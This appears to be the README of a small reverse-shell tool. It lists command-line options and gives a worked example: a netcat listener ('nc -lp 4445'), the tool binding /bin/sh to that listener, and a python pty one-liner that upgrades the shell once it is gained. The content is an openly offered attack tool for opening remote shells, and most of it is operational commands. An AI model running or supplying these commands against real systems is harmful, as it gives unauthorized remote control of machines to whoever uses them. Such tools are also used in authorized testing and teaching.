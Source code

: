 # reverse-shell

A simple reverse shell

## Usage

```
usage: reverse-shell [options] <host> <port>
options:
	-h         : display this and exit
	-v         : display version and exit
	-f         : foreground mode (eg: no fork)
	-4         : use IPv4 socket
	-6         : use IPv6 socket
	-s <shell> : give the path shell (default: /bin/sh)
```

## Example

On the 'client' side, we create the listener :
```
nc -lp 4445
```
or
```
./reverse-listener 127.0.0.1 4445
```

On the 'server' side, we bind the shell to the listener :
```
./reverse-shell 127.0.0.1 4445
```

## Tip
Once you have the shell, if you want to be more confortable :
```
python -c 'import pty; pty.spawn("/bin/bash")'
```

